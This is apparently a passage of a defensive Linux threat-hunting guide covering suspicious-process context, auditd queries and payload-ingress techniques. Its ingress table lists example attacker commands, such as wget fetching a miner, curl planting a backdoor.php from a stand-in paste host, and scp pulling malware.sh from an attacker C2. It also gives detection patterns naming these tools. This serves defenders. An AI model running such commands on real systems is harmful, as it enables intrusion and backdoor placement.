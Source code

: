 **Context is critical.** Examples of suspicious context:

* A web server process spawning `whoami` or `cat /etc/passwd`.
* A user account running `find`/`grep` across home directories outside scheduled maintenance windows.
* A network monitoring tool periodically `ping`ing the local network is expected — an admin-scheduled job is not.

Build a process tree (via audit logs) to get context. Example workflow:

```bash
# Find executions of whoami
ausearch -i -x whoami

# Inspect parent process (ppid) returned from previous result
ausearch -i --pid <ppid>

# Inspect other children of that parent process
ausearch -i --ppid <ppid>
```

---

## “Hack-and-forget” attacks

These are high-scale opportunistic attacks: the attacker finds weak SSH, performs fast discovery, then usually ends in one (or more) of:

* **Install a cryptominer** — use victim CPU/GPU for profit.
* **Enroll the host into a botnet** (e.g., Mirai-style) — for DDoS and other tasks.
* **Use the host as a proxy** — for phishing, distribution, or routing attacker traffic.

---

## Ingress — common file-transfer mechanisms (T1105)

Threat actors commonly use preinstalled tools to transfer payloads to Linux systems:

| **Command**    | **Usage example**                                                          |
| -------------- | -------------------------------------------------------------------------- |
| `wget`         | `wget https://example.com/xmrig.tar.gz -O /tmp/miner.tar.gz`               |
| `curl`         | `curl --output /var/www/html/backdoor.php "https://pastebin.example/abcd"` |
| `scp` / `sftp` | `scp attacker@c2:/home/attacker/malware.sh /tmp/malware.sh`                |

Notes:

* If the attacker initiates an `scp`/`sftp` from their machine, you will not see the remote command on the victim; you will instead see a successful SSH login in the victim’s auth logs.
* If the victim runs `scp` to fetch from an attacker, that `scp` invocation can appear in the victim’s audit logs.

Example detection patterns:

* Monitor `/var/log/auth.log` (or platform equivalent) for unusual SSH logins from external IPs.
* Audit process creation for `wget`, `curl`, `scp`, and suspicious command-line arguments.
* Watch for newly created files in `/tmp`, `/var/tmp`, or other staging directories.

---